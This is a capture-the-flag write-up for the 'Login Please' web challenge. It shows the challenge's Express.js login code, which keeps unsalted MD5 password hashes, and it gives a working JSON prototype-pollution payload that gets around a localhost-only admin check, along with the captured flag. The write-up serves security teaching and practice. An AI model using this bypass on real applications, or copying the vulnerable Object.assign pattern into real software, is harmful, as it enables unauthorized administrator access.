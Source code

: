 # Login Please (75pts)

## Description

Login as admin to get flag, so easy right?

## Attachments

http://puzzler7.imaginaryctf.org:5001/

## Writeup

On page, in comment see `/source`

`http://puzzler7.imaginaryctf.org:5001/source` returns

```js
const express = require('express')
const crypto = require('crypto')

function md5(text) {
    return crypto.createHash('md5').update(text).digest('hex')
}

const app = express()

const users = {
    guest: '084e0343a0486ff05530df6c705c8bb4',
    admin: '21232f297a57a5a743894a0e4a801fc3',
    '1337hacker': '2ab96390c7dbe3439de74d0c9b0b1767'
}
const localIPs = ['127.0.0.1', '::1', '::ffff:127.0.0.1']

app.use(express.urlencoded({ extended: false }))
app.use(express.json())
app.get('/', (req, res) => {
    res.send(`
<form action="/login" method="POST">
    <div>
        <label for="username">Username: </label>
        <input name="username" type="text" id="username">
    </div>
    <div>
        <label for="password">Password: </label>
        <input name="password" type="password" id="password">
    </div>
    <button type="submit">Login</button>
</form>
<!-- /source -->
`)
})

app.post('/login', (req, res) => {
    if (req.body.username === 'admin' && !localIPs.includes(req.ip)) {
        return res.end('Admin is only allowed from localhost')
    }
    const auth = Object.assign({}, req.body)
    if (users[auth.username] === md5(auth.password)) {
        if (auth.username === 'admin') {
            res.end(`Welcome admin! The flag is ${process.env.FLAG}`)
        } else {
            res.end(`Welcome ${auth.username}!`)
        }
    } else {
        res.end('Invalid username or password')
    }
})

app.get('/source', (req, res) => {
    res.sendFile(__filename)
})

app.get('/package.json', (req, res) => {
    res.sendFile('package.json', { root: __dirname })
})

const port = 5001 || process.env.PORT
app.listen(port, () => {
    console.log(`Server running on http://localhost:${port}`)
})
```

Vulnerability is `app.use(express.json())` and `const auth = Object.assign({}, req.body)`

We can pollute `{}` by `__proto__` to set `username = "admin"`

Payload is

```json
POST /login HTTP/1.1
Content-Type: application/json
Content-Length: 64

{
    "password": "admin",
    "__proto__": {
        "username": "admin"
    }
}
```

Check `req.body.username === 'admin'` is `false`, because `req.body.username` is `undefined`

`ictf{omg_js_why_are_you_doing_this_to_me}`
